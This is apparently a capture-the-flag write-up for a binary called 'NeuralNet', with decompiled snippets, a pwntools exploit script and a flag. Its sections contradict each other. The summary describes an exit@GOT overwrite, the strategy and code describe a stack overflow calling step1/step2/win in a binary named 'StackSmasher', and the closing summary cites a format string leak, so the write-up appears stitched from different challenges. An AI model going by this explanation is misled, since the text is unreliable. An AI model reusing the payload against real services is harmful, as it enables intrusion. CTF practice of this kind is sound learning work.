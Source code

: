# NeuralNet - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/NeuralNet.gif)

---

## Challenge Summary

The Neural Net Simulator binary provides a menu-driven interface with several functions, including a debug option that allows arbitrary memory writes by letting the user overwrite a "neuron" address with a new value. The program leaks the address of the predict_outcome function at startup, enabling us to calculate the base address of the binary.

The exploit involves using this leak to compute the binary’s base address and then overwriting the exit() entry in the Global Offset Table (GOT) with the address of the hidden unlock_secret_research_data() function. By selecting option 4 (Exit), the program will call this overwritten GOT entry, granting shell access via system("/bin/sh").

## Binary Information

```bash
$ file NeuralNet
```

![Alt text](img/2.png)

```bash
$ checksec NeuralNet
```

![Alt text](img/3.png)

---

## Static Analysis (IDA pro)

### Key Functionality

```c
printf("Prediction module address (predict_outcome): %p\n", predict_outcome);
```

[Alt text](img/4.png)

- The program prints the address of `predict_outcome`, which leaks a code pointer and allows calculation of the **binary base address**.

```c
scanf("%lx", &v5);
scanf("%lx", &v4);
*v5 = v4;  // Arbitrary write
```

[Alt text](img/5.png)

- Option 3 ("Neural Intervention") allows the user to write any 64-bit value to any memory address, creating an **arbitrary write primitive**.

```c
if (v3 == 4) {
    exit(0);
}
```

[Alt text](img/6.png)

- Choosing option 4 calls `exit()`. If the GOT entry of `exit()` is overwritten with a custom function like `unlock_secret_research_data()`, it will be executed.

### Hidden Function

```c
int unlock_secret_research_data() {
    return system("/bin/sh");
}
```

[Alt text](img/7.png)

- This hidden function spawns a shell and is not reachable during normal execution. Triggering it requires **overwriting `exit@GOT`** to point to it.

---

## Exploit Strategy

### Step 1: Overflow the Buffer

We exploit the buffer overflow by sending input larger than 32 bytes, overwriting the **return address** and controlling the **RIP** to redirect execution to the `win()` function.

### Step 2: Call `step1()` and `step2()`

After redirecting execution to `win()`, we must:

- Call `step1()` to set `first = 1`.
- Call `step2()` to set `second = 1`.

### Step 3: Trigger the Flag

Once both `first` and `second` are set, the `win()` function will print the flag stored in the `FLAG_VAL` environment variable.

---

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template StackSmasher --host ctf.mf.grsu.by --port 9078
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'StackSmasher')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'ctf.mf.grsu.by'
port = int(args.PORT or 9078)

env_vars = {'FLAG_VAL': 'grodno{dummy_flag}'}

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, env= env_vars, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

offset = 40
payload = flat (
        b'A' * 40,
        exe.symbols['step1'],
        exe.symbols['step2'],
        exe.symbols['win']
)
io.sendline(payload)
io.recvuntil(b'@')
flag = io.recvline().strip(b'"\n')
log.success(f"FLAG : {flag.decode()}")


```

---

## Exploit Output

![Alt text](img/6.png)

---

## Vulnerability Summary

- **Format string vulnerability** allows leaking memory using `%p` and `%s`.
- The leaked memory provides the **address of the `FLAG_VAL` environment variable**.
- By reading the leaked address, we can **extract the flag**.

---

## Flag

```
grodno{unCL3_M47V3y_w45_h3R3_w17H_0ld_5Ch00L_3xPL017}
```

